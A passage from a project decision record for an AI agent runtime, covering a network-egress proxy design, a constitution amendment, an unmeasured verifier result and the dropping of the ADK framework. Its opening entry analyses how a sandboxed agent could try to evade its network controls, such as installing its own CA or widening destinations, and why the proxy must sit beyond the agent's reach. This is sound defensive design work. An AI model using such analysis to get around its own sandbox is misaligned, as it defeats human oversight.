that TLS interception is feasible, is not necessary for v1, and should not be adopted for v1.**

1. **Can the agent subvert a CA it trusts?** Largely no, and the question misreads where the authority
   sits. A trust anchor in the sandbox is a *client-side* property: the private key stays with the
   proxy, outside the sandbox, so an agent that adds its own CA or runs `curl -k` changes only what
   *it* is willing to accept and cannot make the proxy forward to a denied destination or a denied
   method. **What is real is the concentration:** a CA trusted inside the sandbox can impersonate every
   host to everything in it, so a proxy compromise or a key leak makes the sandbox's TLS worthless
   at once, and the key becomes a v1 asset with a rotation story we would otherwise not owe.
2. **Must the proxy sit outside anything the agent can modify?** Yes, and this is not specific to TLS —
   it is requirement 5 restated with teeth. The sandbox must hold no route except to the proxy, no
   `NET_ADMIN`, no raw sockets, and no write path to the proxy's configuration, its allowlist, its
   method rules, or its CA material. **The proxy becomes a single point of enforcement, so it is also a
   single point of failure**, and it inherits Principle IV's *guardrails live where an agent cannot
   modify them* clause in full.
3. **What happens when the target presents a certificate the proxy cannot validate?** This is the case
   that bites hardest, and it bites precisely where OD-08 put us: self-hosted deployments routinely
   serve the target over a private CA, a self-signed certificate, or plain HTTP on a Docker network.
   A terminating proxy must then either fail closed — refusing the deployment the product exists to
   serve — or accept an unvalidated peer, which is a silent downgrade of exactly the kind this entry
   is written to prevent. **The only honest resolution is to pin the target's certificate or its
   issuer at configuration time, alongside the pinned address of requirement 2, and fail closed on
   mismatch.** That is consistent and it is a real operational cost: the pin is a second thing to
   rotate, an expired pin stops the agent, and the operator's fastest fix is to turn verification off.
4. **Can a self-hosted operator plausibly be required to run this?** Running a proxy container is
   plausible — under OD-08 we ship the specification and the customer instantiates it, and a compose
   file is ours to author. Generating a CA, installing it into the sandbox trust store, and keeping a
   certificate pin current is a materially higher bar, and it is the bar at which an operator reaches
   for the documented escape hatch. **A control an operator predictably routes around is worth less
   than a narrower control they will actually run** — the same rule requirement 6 already applies to
   package indexes.

**So the v1 posture is re-origination rather than interception, and it is stronger on three axes at
once.** The proxy is a **re-originating forward proxy**: the sandbox is handed the target's base URL as
a cleartext endpoint on the proxy, over a private link inside the operator's own host; the proxy reads
the method and path in the clear, applies the method allowlist and the side-effecting-read deny list,
and then makes its own TLS connection outbound to the pinned target address with ordinary certificate
validation. **CONNECT is denied outright, and so is every other destination.** This is available to v1
only because of a property v1 happens to have: **there is exactly one legitimate destination and we
control the base-URL string handed to the agent** — the same property [14](../../research/14-architecture-synthesis.md)
C-17 notes makes the allowlist cheap here. Three consequences, and each is a strict improvement over
the interception design. **No CA enters the sandbox**, so item 1's concentration does not arise.
**No certificate pin is required of the operator**, because the proxy validates the target the ordinary
way and item 3's failure mode goes with it. And **the sandbox needs no resolver at all**, since its
only reachable address is a pinned proxy — which is the strongest possible form of requirement 3
rather than a proxied approximation of it.

**Four costs and boundaries, stated because a control that looks like enforcement and is not is the
failure this entry exists to catch.** ① **Absolute URLs defeat it.** A pagination `next` link, a
HATEOAS href, or a URL copied out of the specification points at the target's real hostname; the agent
following one attempts a connection the sandbox cannot make, and it fails. That is fail-closed and
legible, and it is a real usability cost that will generate pressure to widen the allowlist — treat
any such widening as a D-15 review object, per requirement 6. ② **Protocol upgrades are denied.** An
upgraded WebSocket is an opaque bidirectional channel to the allowlisted destination, which is the
method allowlist's hole reappearing in another shape; the proxy denies `Upgrade` by default, and
WebSockets are outside the served-operation set D-18 fetches in any case. ③ **Non-HTTP bytes are
denied**, because the sandbox can reach nothing but an HTTP-speaking proxy — which is how requirement
1's host-and-port rule gets its force in practice. ④ **Re-origination does not generalize.** It works
because v1 has one destination whose base URL we own. Any future capability that lets an agent reach
destinations we do not control the base URL for is back to the choice above: terminate TLS and pay
items 1–4, or accept destination-only filtering and say so. **Recording that boundary now is the
point; it is the same class of claim as *provably read-only* and it must not be inherited.**

**What this settles about the shell — plainly, because the record has asserted both readings.** **v1's
shell executes.** No step of any ladder classifies a shell command for effect purposes, and none needs
to: a shell command's *network* effects are governed by the proxy exactly as the runtime's own HTTP
client's are, and its *local* effects are governed by the sandbox boundary and by the deterministic
deny rules that already resolve before any permissive mode. **The `UNKNOWN` disposition survives and
changes subject** — it applies to a request the proxy sees and cannot match to a safe served
operation, not to an unparseable argv. OD-07's general fallback path is intact, which is the outcome
the ceiling test's only replicated requirement demanded.

**Four consequences that are not optional, recorded so the relocation does not quietly lose them.**
① **The proxy is a single enforcement point and must be un-modifiable by the agent** — outside the
sandbox, no write path from it, per item 2. ② **D-15's configuration leg grows.** OD-10 made the
side-effecting-read deny list a review object; **the proxy's configuration — allowlist entries, pinned
addresses, method rules, and every widening — joins it**, and it is now the largest thing standing
between the agent and the network. ③ **U-43's measurement moves to the proxy.** The gate whose
precision has never been measured is now the proxy's method-and-path rule set rather than the
dispatcher's, and the error shape OD-10 narrowed it to — a side-effecting endpoint reached by a safe
method — is unchanged. Relocating a mechanism does not measure it. ④ **"Provably read-only" is still
not available and must not creep back in.** A verb is a convention and a lookup is not a proof at the
proxy any more than it was in the dispatcher. What improves is *coverage* — the rule set now sees
shell-originated requests it previously could not — and coverage is not validity.

**Propagated to** `research/14-architecture-synthesis.md` (TL;DR 19 rewritten and TL;DR 20 added; §2.6
ladder replaced; §2.9 non-negotiable 4; §7.6; **C-16**, **C-17** resolved, **U-43** re-pointed,
**U-44** unchanged in substance, **D-15**, **D-22**); `research/08-auth-identity-and-secrets.md` §5.4,
§6.1, §8.1 item 4; `research/07-product-vision.md` §3.2.5 item 5; `research/11-validation-plan.md` §7
Phase 5 and §8; `research/13-claude-managed-agents.md` §7 item 2; `README.md`; `research/README.md`;
`specs/001-discovery-validation/VERDICT.md`; and the `agent-safety-and-sandboxing` and
`credential-and-env-injection` skills with the roster note in `.cursor/skills/README.md`.

### OD-13 — constitution amendment to Principle IV bullet 1: applied as v1.2.0

**Decided and applied 2026-08-03.** OD-12 requirement 2 flagged the constitution's phrasing —
*"network allowlisted to named hosts"* — as **a candidate amendment, not amended here**, on the
grounds that a name-keyed allowlist is the weaker key. The owner approved the amendment and it is
applied. `.specify/memory/constitution.md` is at **v1.2.0**.

**What changed.** Principle IV bullet 1's network clause is replaced by a four-term specification, all
four required: **addresses pinned at configuration time** rather than names re-resolved per request;
**host *and* port** granularity rather than host; **DNS denied or proxied**; and **loopback, RFC 1918,
link-local and the cloud metadata address denied even on an allowlisted host.** Nothing else in the
principle, and nothing else in the document, is touched.

**Why 1.2.0 and not 1.1.1 or 2.0.0**, since the number is the part most likely to be got wrong. The
document's versioning policy reserves **MAJOR** for backward-incompatible governance changes,
principle removals, and redefinitions that invalidate existing artifacts; **MINOR** for a new
principle or section, *or materially expanded guidance*; **PATCH** for clarifications and non-semantic
refinements. This is not PATCH — the four terms are substantive obligations and a configuration
meeting the old wording can fail the new one, which is more than a clarification. It is not MAJOR for
two reasons that have to be held together. **No artifact is invalidated, because none exists** — no
product code and no emitted agent pack, the same empty migration plan 1.1.0 recorded. And **nothing
compliant becomes non-compliant**, because v1 did not satisfy the bullet in its prior form either:
[14](../../research/14-architecture-synthesis.md) **C-17** is the finding that it ships open outbound
network. What remains is materially expanded guidance inside an existing principle, which is MINOR.
**This is the same instrument, the same reasoning, and the same bump the Principle I amendment took at
OD-03, and it is matched deliberately rather than re-derived** — a NON-NEGOTIABLE principle amended by
strengthening, with explicit owner approval, an empty migration plan, and a Sync Impact Report at the
top of the file.

**What the amendment does *not* do.** It does not make v1 compliant; it makes OD-12 discharge a
specification rather than paraphrase one. **C-17 closes on OD-12's mechanism, not on this amendment** —
a sharper requirement that nothing implements is still unmet. And it deliberately does not touch
bullet 2, whose per-call tier reading D-22 and OD-10 already settled, nor the strain both note between
"a tier is a property of a tool" and v1's per-call resolution; that remains recorded as owed at
[14](../../research/14-architecture-synthesis.md) §3.1 dependency item 2.

**Propagated to** `.specify/memory/constitution.md` (Sync Impact Report, Principle IV bullet 1, version
line); `research/14-architecture-synthesis.md` (§8 process line, C-17, §2.9, D-22 sources);
`research/08-auth-identity-and-secrets.md` §8.1 item 4; `README.md`; `research/README.md`; and the
`agent-safety-and-sandboxing` and `credential-and-env-injection` skills, each of which quoted the
superseded phrasing.

### OD-14 — the verifier's margin over an LLM judge is declared UNMEASURED; the production spec is unblocked and the measurement is deferred to production

**Decided 2026-08-03. This retires OD-11's blocking condition.** The production specification is the
next artifact again.

> ## ⚠️ THIS IS A DEPARTURE FROM THIS FEATURE'S DISCIPLINE, AND IT IS RECORDED AS ONE
>
> **Feature 001 exists to prove things before building them.** It killed the capability half of its
> own thesis on pre-registered evidence (OD-07). It refused to swap a primary metric to rescue a
> saturated measurement (OD-04). It forbade itself a pooled verdict that would have flattered the
> product (OD-05). It declined a $15 replication and then wrote the decline into the record so the
> gap could not be forgotten. Every one of those adjudications went **against** the project's
> interest.
>
> **This one goes the other way.** A capability the product intends to sell is being shipped into a
> specification with its differentiating claim unmeasured, on the owner's judgement that the
> measurement is not obtainable here at a price worth paying. That is not a technicality, not a
> re-scoping, and not a gate being satisfied by a substitute. **It is a knowing exception to the
> standard the rest of this document is written to, taken with the reason stated, so that a reader
> can hold it against the record rather than discover it.**
>
> The honest framing is: *we could not measure this cheaply, we decided to build anyway, and we are
> saying so.* Anyone reviewing the production specification should treat the verifier's headline
> status as **asserted, not earned**, until production traffic says otherwise.

**The decision.** The **marginal detection of a contract-derived verifier over a general-purpose LLM
judge is UNMEASURED**, and will remain so until it is measured against real traffic in production.
~~Experiment **E8** is closed~~ **The verifier-vs-judge experiment — `E19` since 2026-08-11 — is closed** as a null on *power*, not on **H2**: it does not report that the verifier
lacks a margin, it reports that this corpus cannot tell. The production specification proceeds.
*(Named rather than numbered, 2026-08-10: the identifier struck here also named the Stage-D
synthesis experiment, which this decision does not close. **Numbered again 2026-08-11 under OD-31**,
which assigned `E8` to Stage D and `E19` to this experiment — see the superseded collision note below.)*

> ## ✅ RESOLVED — THE IDENTIFIER CLOSED ABOVE ONCE NAMED A SECOND, DIFFERENT EXPERIMENT IN THIS SAME DOCUMENT
>
> **SUPERSEDED 2026-08-11 by [OD-31](#od-31--the-verifier-vs-judge-experiment-is-renumbered-e19-and-the-stage-d-synthesis-experiment-keeps-e8-the-renumber-reaches-live-prose-only-and-the-committed-run-directories-the-fingerprinted-harness-files-and-the-dated-assessments-keep-the-name-they-were-recorded-under),
> which answered the question this note put to an owner. **Stage D keeps `E8`; the verifier-vs-judge
> experiment is `E19`.** The note is kept rather than deleted because it records a real state the
> corpus was in for one day, and because its option table is the measurement the decision was taken
> on. **Two things in it are now out of date and are corrected rather than rewritten**: its radius
> figures for option A are stale — the true figure at `c9e42ad` is **194** occurrences across **70**
> files, not `128` across `52`, the note's sweep having missed `.cursor/skills/` and its own
> hardening pass having added sites afterwards — and its contiguity objection to `E19` applied to
> option **B** only, since the experiment that actually took the number is not a ladder node.
>
> **Read everything below as the state on 2026-08-10.**
>
> **Opened 2026-08-10. Nothing is renumbered, and the decision is the owner's.** Two experiments in
> this plan carry the identifier `E8`, and a reader tracing the experiment ladder arrives at a
> closure that belongs to the other one.
>
> * **The Stage-D synthesis experiment** — *does synthesis reach the ceiling?* — is defined at
>   [Stage D](#e8--does-synthesis-reach-the-ceiling), is the node the ladder's `clears` edge reaches,
>   and is the experiment the [budget table](#budget-and-the-feature-split) prices in its Stage D
>   row. It was never built and is deferred to feature `002`.
> * **The verifier-vs-judge experiment** — *does a contract-derived verifier catch anything an LLM
>   judge does not?* — is the one OD-14 closes. It has a harness directory, a preregistration, a
>   viability document, twelve committed run directories, and findings 015, 017 and 018.
>
> **Why the checkers cannot see this, which is worth recording separately from the defect.**
> `identifier-resolution` asks whether a token resolves to *a* definition, not whether it resolves to
> the one meant, so it passes here and is right to. **The collision is a definition and a use, not
> two definitions**: inside this document the Stage-D heading is the only site the checker treats as
> defining, and every occurrence belonging to the verifier-vs-judge experiment is a *use* that
> resolves to it. The two definitions exist, but in different documents, and
> `identifier-resolution` unions per-document definition sets, so they collapse into one entry
> corpus-wide.
>
> **Both numbering options, with their blast radius, so the decision can be taken on numbers.**
>
> | Option | What moves | Measured blast radius | What it costs |
> |---|---|---|---|
> | **A — Stage-D synthesis keeps the identifier** | the verifier-vs-judge experiment is renumbered | `128` occurrences across `52` files in the verifier-vs-judge set alone, plus `17` harness source files, `12` committed run directories whose manifests name the experiment in a hashed record, the document filename `E8-VIABILITY.md` and every link to it, and citations in four research documents, the root README, VERDICT, the harness index, three project skills and two files under `tools/` | Touches **frozen run artifacts**. The freeze refuses to start on a hash change, and the results were already edited once under a recorded neutralisation that altered no figure; this would be a second edit to committed evidence |
> | **B — verifier-vs-judge keeps the identifier** | the Stage-D synthesis experiment is renumbered | `4` sites in this document — ladder node, ladder edge, section heading, cost-table row — plus `5` range sites across four documents that write `E8–E9` and `E8–E13` | Breaks **contiguous range notation** in VERDICT, the harness index and a checklist, since the neighbours do not move. The lowest free number is `E19`, so the ladder's numbering would stop running in its own dependency order — the one property this register has |
>
> **Neither option is free of consequence, so neither is taken here.** The repair that *was* taken
> is the one that costs nothing and survives either decision: the closure sentence above now names
> its experiment instead of numbering it, and both meeting points carry a notice. Renaming prose is
> not renumbering — the identifier still belongs to whichever experiment the owner assigns it to.
>
> **What an owner should decide.** Which experiment keeps `E8`. Until then, every occurrence of that
> identifier in this corpus is ambiguous by meaning while resolving correctly by construction, and
> that is the state this notice exists to make visible rather than to resolve.

**Why the corpus cannot answer it.** E19 was pre-registered, built, self-tested and dry-run at
**$0.00** — no judge call was ever billed — and stopped before its first paid call, for four reasons
that are structural rather than budgetary. They are set out at [`E8-VIABILITY.md`](./E8-VIABILITY.md) — filed under the experiment's former name —
and summarised here only so this decision is legible on its own:

1. **The surviving discriminative sample is two traces.** Restricting the frozen 246 traces to those
   whose run battery matches the task definitions every downstream consumer joins them against leaves
   **103 traces, 7 oracle-negatives and 2 false successes** — one summation slip and one
   category-filter collapse, two phenomena. The most forgiving defensible join rule reaches 3.
2. **The gate boundary sits between zero traces and one.** On the primary denominator a single trace
   is worth **14.29 pp** and the pre-registered gate is **≥ 10 pp**, so one trace clears it alone even
   after the ×0.7681 contract-extraction discount. A coin flip on one judge verdict would decide
   whether the verifier is half the product.
3. **Three pre-registered riders cap the verdict before any call is made, and they are independent.**
   §6.5 forces *provisional* because the only surviving numeric discriminative case is a sub-1%
   near-miss whose removal necessarily flips the verdict; §6.9 caps the verdict at *advisory* below
   n ≥ 30 across ≥ 3 families, and we have 2 across 2; **S8** forces *not measurable* unless the judge
   is perfectly stable, because one verdict flip on a 7-trace denominator **is** a 14.29 pp noise
   floor. **No achievable outcome licenses the headline claim.** That is the binding fact: the
   experiment could not have earned the verdict even if it had run and won.
4. **The eligibility rule costs four of seven task families.** `N` (impossible) and `R3`
   (needs-clarification) yield no expected value under any battery version and are unattestable;
   `W1` is a write family v1 does not perform; `NM` traces are provably stale. Only `R1`, `R2` and
   `R4` survive, and 9 of the 10 false successes sit in `R4`.

**Why deferring to production is the right shape of answer rather than an evasion.** The quantity is
a *comparison against a judge on real agent failures*. Manufacturing that corpus here costs
**$150–$460 and several hundred new tasks** on a target application chosen for the ceiling test, not
for this question — and it would still measure the judge against traces from one model, one
application and one battery. **Production traffic supplies the corpus for free and supplies a better
one.** The production specification therefore inherits an obligation, not a blank: instrument the
verifier and a shadow judge over the same traffic, and report marginal detection with the
pre-registered gate applied unchanged. **The gate is not re-opened for renegotiation by this
decision — only its measurement is relocated.**

> ## What IS demonstrated, and what is NOT — do not let the record blur these
>
> **These two statements are about different things and only one of them is unmeasured.**
>
> **DEMONSTRATED — the mechanism, and it was not fitted to the corpus.** The postcondition arm (`c2`)
> **detects all 9 numeric value errors, including all 3 sub-1% near-misses**, ~~with zero false alarms
> across 220 clean positives~~ **and raises zero false alarms on the 96 oracle-positives whose run
> manifest declares the battery under test, 93 of which it compared** — *the offline full-corpus
> sweep, model-free and part of no run's
> reported metrics* ~~(`FPR_c2 = 0/60` on the scored sample, `D_c2 = 10/10` on `N_fs`)~~ *(both
> figures restated, apart, in the labelling note at the foot of this box; the denominator is restated
> in the attestation note below it).* It
> does this through a **six-rung precision ladder committed before any derivation was written, which
> contains no numeric constant** — each rung names a *source* of precision, never a value, and the
> last rung is a refusal rather than a default tolerance. 28 projections land on integer-closed
> exactness, 9 on text/set identity, 6 on the application's own serialisation, 1 on a precision the
> request itself declares, and **17 refuse**. The no-fitting constraint is *enforced*, not promised:
> every literal must be declared with a source, a `prompt`-sourced literal must actually occur in the
> request text and is re-tokenised and checked, entries are keyed by request signature rather than by
> task id, and the derivation was applied to **all 61 requests in one pass** including the 17 it must
> refuse — because deriving only where success was expected would have selected the numerator. The
> strongest single result is a set-typed catch by an **independent path to the truth**: the
> application silently dropped a schema-valid filter and reported `total: 60` where 7 was correct,
> every layer of the contract was satisfied end to end, and `c2` caught it by recomputing the member
> set from a different field rather than by a second pass through the same contract.
>
> **Labelling note added 2026-08-03 — the struck parenthetical was *stale*, not wrong, and the
> defect was in the reading rather than in any figure.** Every number in it is correct and correctly
> attributed; `on the scored sample` even names the right population. What it lost is that printing
> `0/60` hard against `220 clean positives` scans as **one measurement expressed twice**, and it is
> two measurements over two different populations. Stated apart, as
> [14](../../research/14-architecture-synthesis.md) §3.2 and
> [11](../../research/11-validation-plan.md) §8 now require:
>
> - **220** — every clean oracle-positive in the frozen corpus, swept offline against the committed
>   fixture. Model-free, no sampling, and **part of no run's reported metrics**. ~~Quote it for a
>   claim about the *mechanism*, which is what this box is making.~~ **Quote the 96 below for that;
>   see the attestation note.**
> - **96** — *added 2026-08-03* — the subset of those clean positives whose **own run manifest
>   declares the battery under test**, so no cross-battery join is performed and nothing rests on the
>   value-comparison test. 93 of the 96 were compared and none raised an alarm
>   ([finding 018](./findings/018-verifier-false-alarm-attested-denominator.md)). **This is the
>   denominator a mechanism claim should be quoted on.**
> - **60** — the seeded stratified sample `select.select` draws from the pinned seed, sized for the
>   judge because judge calls are what cost money. **Every reported false-alarm rate in this feature
>   is computed on it**, including `FPR_c2 = 0/60`. Quote it against anything judge-scored.
>
> Both are zero, so nothing written anywhere was false; the denominators differ, ~~by roughly **3.7×**~~ **220 against 60** *(corrected 2026-08-03; the multiplier was derived here and appears in no finding)*,
> so a reader who merges them either double-counts one result or reads the stronger as the weaker.
> **`D_c2 = 10/10` on `N_fs` is unaffected** and stands as written — it is a detection count over
> the failures the oracle recorded, not a false-alarm rate, and it shares neither denominator.
> **Why this is load-bearing rather than pedantic:** the *schema* arm's `FPR_c1` read a perfect
> **0 of 60** in every dry run while that arm was raising two false alarms the sample had simply
> never drawn ([finding 015](./findings/015-verifier-vs-judge-not-run.md); **C-19**). A denominator
> that excludes the failure is indistinguishable from one that contains none — which is exactly the
> inference the adjacency above invited a reader to make about `c2`.
>
> **Attestation note added 2026-08-03 — the 220 is a rate over a mixed population and it counts 45
> records the arm never compared.** [Finding 017](./findings/017-evaluation-contemporaneity.md)
> ranked this figure its top suspect and
> [finding 018](./findings/018-verifier-false-alarm-attested-denominator.md) settles it by re-running
> the census restricted to same-battery records. **The narrow rate is also zero**, and so is the
> value-attested half taken on its own, so the pooled figure was not being carried by the records
> whose provenance rests on a test blind to wording drift. Two things nonetheless need saying beside
> the 220. **It is not a rate**: 45 of the 220 are `unverifiable`, including all 40 unattested
> positives, and a record the arm declined cannot appear in the numerator — the pooled rate is 0 of
> 175 compared. **And this box pairs two populations**: `D_c2` is over the eligible population and
> the false-alarm denominator is over the clean positives. On the attested population both sides
> share one denominator and read **2 of 2 false successes flagged and 0 false alarms on 96
> positives**, at the cost of a wider interval and of 12 rather than 34 compared `R4` records.
>
> **NOT DEMONSTRATED — the margin.** *Whether a general-purpose LLM judge would have caught the same
> failures.* No judge call was ever made. Every judge figure in the committed dry-run artifacts is a
> **stub**, and any `MD` (marginal detection) number read off them is meaningless. This is the whole
> of what OD-14 declares unmeasured.
>
> **The distinction in one line: the verifier works; nobody knows whether it is *needed*.** A reader
> who collapses those two into "the verifier is unproven" has understated the evidence, and one who
> collapses them into "the verifier is validated" has overstated the claim. Both readings have
> already been made in this corpus.

**One thing E19 produced at zero cost that is worth more than the number it was going to print, and
it is a design constraint rather than a result.** The failure that matters is the one where the
request was schema-conformant, the response was schema-conformant, and the answer matched the
application's own reported total. **A schema-derived verifier cannot see that class of failure at
all** — the schema-derived arm (`c1`) detects **0 of 9** numeric value errors, exactly as the
pre-registered predicted-null control expected, and returns `unverifiable` on 92% of traces. What
catches it is an *independent recomputation path*, not a second pass through the same contract. **The
production verifier must be specified as recomputation against an independent source, not as schema
conformance checking.** That constraint is licensed by the artifacts and does not depend on the
unmeasured comparison.

**What this decision does not license.**
- **Not** a claim that the verifier beats a judge. That is the unmeasured quantity, and OD-14 exists
  to name it as unmeasured rather than to resolve it.
- **Not** a claim that E19 refutes **H2**. It is a null on power. A future measurement is unprejudiced
  by this.
- **Not** relief from the pre-registered gate. The gate — *≥ 10 pp → headline feature; < 10 pp → CI
  detail; judge AUROC < 0.5 → constitutional ban on LLM judges in the success path* — travels
  verbatim into production instrumentation, third branch included.
- **Not** discharge of the pre-registration's **§4.1 human adjudication pass**, which was never
  performed and remains open independently (see the retirement note at OD-11).
- **Not** a precedent. This is one exception with one reason. Any second one should be argued from
  scratch rather than from this.

**What it changes.** The next artifact is the **production specification** again, at the OD-09 scope.
It now inherits **three unmeasured v1 capabilities rather than two carried plus one pending**, and
that consolidated statement lives at
[`VERDICT.md` §2 — *All three v1 capabilities ship unmeasured*](./VERDICT.md#all-three-v1-capabilities-ship-unmeasured).

**Propagated to** [`VERDICT.md`](./VERDICT.md) (header, §2 new subsection, §7); `README.md` (status
box, current state, next actions); `research/14-architecture-synthesis.md` (TL;DR 18 amended and 21
added, §6 "What to do Monday", P-07, P-09, D-21); `research/11-validation-plan.md` §8 Phase 2 row;
`research/README.md`; and `.cursor/skills/contract-derived-verification/SKILL.md` with the roster
note in `.cursor/skills/README.md`. **A finding on E19's structural results is being written
concurrently and is referenced here as forthcoming; this decision cites no identifier from it.**

### OD-15 — ADK is dropped for v1; we own the loop, the lifecycle and the serving surface directly

**Decided 2026-08-03, after the production specification's plan phase
([`specs/002-spec-aware-agent-runtime/`](../002-spec-aware-agent-runtime/plan.md)) built a v1 design
against OD-01 and found that three of its four limbs do not survive contact with that design.** This
is a **partial reversal of OD-01**, and it is recorded as one.

> ## OD-01 IS NOT DELETED, NOT REWRITTEN, AND NOT WRONG
>
> **OD-01 was the correct decision on the evidence available on 2026-08-02, and it stays above
> exactly as written.** It adopted ADK on four grounds — graph execution, lifecycle, HTTP/SSE
> serving, and provider abstraction — and every one of those grounds was stated accurately for the
> product that existed when it was taken: a *generator* emitting graph-structured agent systems with
> synthesized tool catalogues. **OD-09 changed the product** to a single-agent runtime, and three of
> OD-01's four limbs lost either their subject or their evidence as a consequence. Reversing a
> decision because the thing it was about no longer exists is not the same as the decision having
> been mistaken, and the record must not be read as saying so.

**The four limbs, one at a time.**

| OD-01 limb | State on 2026-08-03 | Why |
|---|---|---|
| **Graph execution** | **No subject** | v1 is one agent and one loop (OD-09). Hosting that on ADK's `Workflow` graph tier is *graph for a `for` loop*, the failure mode constitution Principle III names by that name. Finding 006 measured the graph tier; v1 emits no graph, so the measurement has nothing in v1 to be about |
| **Provider abstraction** | **Measured non-compliant** with the production specification's FR-037 for one of the four providers SC-010 requires | [finding 003](./findings/003-runtime-provider-agnosticism.md) result 7 counted ADK's `LiteLlm` adapter referencing xAI's opaque reasoning field **zero times, under every counting rule that result's own correction enumerates**. FR-037 forbids dropping provider-opaque state; finding 003 states the consequence in constitution Principle V's own words — it "degrades multi-turn tool use silently rather than erroring" |
| **HTTP/SSE serving** | **Rests on nothing measured** | Finding 003's *What this does NOT license* says so in as many words: nothing about ADK's HTTP/SSE serving layer, sessions, graph workflows or Agent Engine coupling. Finding 006 repeats it. It is the one limb of OD-01 with no measurement anywhere behind it |
| **Lifecycle** | **Surviving** | Finding 006 measured event-sourced resume over `SqliteSessionService` working, reproducible 5/5. This is the only limb still standing |

**The decision. One surviving limb does not justify the dependency.** v1 does not use `google-adk`.
The loop, the session lifecycle and the operator-facing surface are ours, and the provider transport
is each vendor's own SDK under **OD-16**. Dropping ADK is also what makes OD-16 free rather than
expensive: `litellm` is in the tree at all because it is what ADK's documented multi-provider path
uses, so removing ADK removes the licensing exposure OD-16 names, rather than requiring it to be
engineered around.

**This answers the production plan's Q-04 with option (b), against that document's own
recommendation, and it subsumes its Q-05.** Q-04 asked whether ADK is still worth its dependency
given how narrow the remaining slice is and recommended keeping it for v1; Q-05 asked whether the
operator-facing surface is ours or ADK's. With ADK gone there is no ADK surface to choose, so Q-05
stops being a live question.

#### What ADK was carrying that now has no owner

Listed explicitly, because a dependency removed silently takes its responsibilities with it. Each
row is a capability the production plan assumed available; the third column says whether anything in
the corpus now owns it.

| Capability ADK was carrying | Where the plan assumed it | Owner after OD-15 |
|---|---|---|
| **Session lifecycle and persistence** — creating, loading and persisting a session, and the event log resume reads | T-01, and the "session tier" half of the Primary Dependencies line | **None.** New build item. Not sized anywhere |
| **The agent loop itself** — turn dispatch, the model-response-to-tool-call step, the event stream a caller consumes | T-01, "build the loop on `google-adk`'s agent/runner tier" | **None.** New build item. Not sized anywhere |
| **Checkpoint and resume** | T-01, forfeited at the graph tier but assumed at the session tier | **None.** See the reassessment below |
| **Provider transport and tool-schema translation** across four providers' differing function-calling wire formats | T-02, "ADK remains the transport" | **OD-16**, and the transport is now unmeasured — see the cost statement below |
| **The per-provider token cost table** that finding 006's budget item requires and finding 003 showed cannot be assumed uniform | The budget-channel build item, via `litellm`'s model-cost map | **None.** New build item, and it was never on anyone's list because the dependency supplied it |
| **`max_llm_calls`** — the one budget dimension finding 006 measured genuinely enforced | Finding 006 step 4, "a low backstop rather than a budget" | **None.** The backstop is ours too now. Small, and it was free |
| **Raw terminal signals** — `error_code`, `error_message`, budget exhaustion by exception type, `actions.end_of_agent` | Finding 006 primitive 2: the taxonomy was always ours, but "the raw signals to derive two of them are present" | **None.** The signals were ADK's. The taxonomy still has to sit on something |
| **Concurrent dispatch of parallel tool calls** | T-08 | **T-08, restated** — see the fan-out section below |
| **Streaming event emission** the operator-facing surface renders | T-03 assumed our surface over ADK's stream | **None.** T-03 owns the surface; nothing owns what feeds it |

**Eight of those nine have no owner.** They are not hard problems individually and none of them is
novel, but they were outside every estimate this feature produced, and the honest position is that
**v1's build is larger than the plan phase costed it and this document does not know by how much.**
Finding 006's **2.5–3.5 weeks** was scoped to *loop safety on top of an adopted runtime*; it does not
cover a runner, a session store, a provider transport or a cost table. **No re-derived figure is
available from any committed artifact, and none is invented here.**

#### What changes about the resume-primitive tradeoff

The production plan's Principle III deviation record forfeited "the one resume primitive finding 006
measured working" on the grounds that v1 would use ADK's agent/session tier rather than its
`Workflow` tier, and argued the forfeit was **nominal rather than real**. With ADK gone entirely,
that argument has to be re-run, and it lands in three places rather than one. Read against
[finding 006](./findings/006-graph-loop-primitives.md) §Primitive 1 directly.

1. **The "nominal" argument survives and gets stronger.** Finding 006 measured a loop hosted inside
   a node re-executing **4 of 4** completed inner turns on resume, because ADK checkpoints at node
   boundaries and a hosted loop is opaque to it. That was the whole basis for calling the forfeit
   nominal, and it does not depend on which ADK tier v1 sits on — it depends on v1's loop being the
   thing that needs journalling. It still is.
2. **The granularity constraint is gone, and that is a real improvement.** We are no longer bound to
   node-boundary checkpointing by anybody. The turn journal keyed by turn and step index is the
   granularity finding 006 measured ADK unable to offer, and under the previous design it would have
   run *inside* a loop that ADK's own persistence could not see — two mechanisms at two granularities
   over one session. Now there is one mechanism.
3. **And v1 now has no measured resume machinery at all, which is worse and must be said.**
   Checkpoint and resume was the primitive finding 006 measured **present and working, 5/5
   reproducible**, and it measured it on ADK's event-sourced replay over `SqliteSessionService`. That
   result does not transfer to a journal we have not written. **Finding 006's "two of four missing
   against a threshold of three" was a statement about ADK and is no longer a statement about v1's
   substrate**; against our own runtime the count is four of four to build, and nothing anywhere has
   been measured on it. This does not reverse OD-15 — the gate was never the reason to adopt, the
   four limbs were — but no document may go on citing "the runtime clears its loop-safety gate" as
   reassurance about v1.

Two smaller consequences, both in our favour and neither load-bearing. Dropping ADK removes the
`@experimental` `ResumabilityConfig` exposure finding 006 flagged at its step 3 and the private-module
churn risk recorded at **U-12**; and it removes the OpenTelemetry context error finding 006 reproduced
3 of 3 times on consumer cancellation, which matters because cancellation is routine in an agent
product. Separately, finding 006's *What this does NOT establish* records that provider-opaque
reasoning state surviving a resume boundary is **untested**. With the opaque envelope and the journal
now both ours, that boundary is inside one mechanism instead of across two — which is an opportunity
to extend the round-trip fixture to cover resume, not a reason to consider it covered.

#### Fan-out, and the hazard that must not lose its owner

The production plan noted, without flagging it, that finding 006's fan-out results apply to v1 even
though v1 emits no graph: **every provider in SC-010's set can emit several tool calls in one turn**,
so a single-agent loop has fan-out whether or not it has a graph, and the silent lost update finding
006 measured is a single-agent hazard. That reading is correct and OD-15 does not weaken it. What
OD-15 changes is who is exposed to it and what the evidence covers.

- **The hazard keeps its owner.** T-08 — execute concurrently, journal and record in the provider's
  declared index order and never in completion order, merge shared state by an explicit per-key rule
  and never by last-write-wins — is unchanged and is the mitigation. What changes is its character:
  it was a discipline imposed on somebody else's scheduler and it is now a **construction requirement
  of our own dispatcher**, which is the easier of the two. An invariant test belongs with it.
- **The evidence behind it no longer covers v1, and that is a loss.** Finding 006's **5 distinct
  orderings in 8 runs** under overlapping latencies, and the lost update where one of two parallel
  branches writing a shared key vanished with no error and no warning, are measurements of **ADK's**
  scheduler and **ADK's** reducer-free state model. They are the reason the hazard is known to be
  real; they are not evidence about a dispatcher we have not written. **T-08 is therefore now a
  design rule with no measurement behind it**, where before it was a design rule with a measured
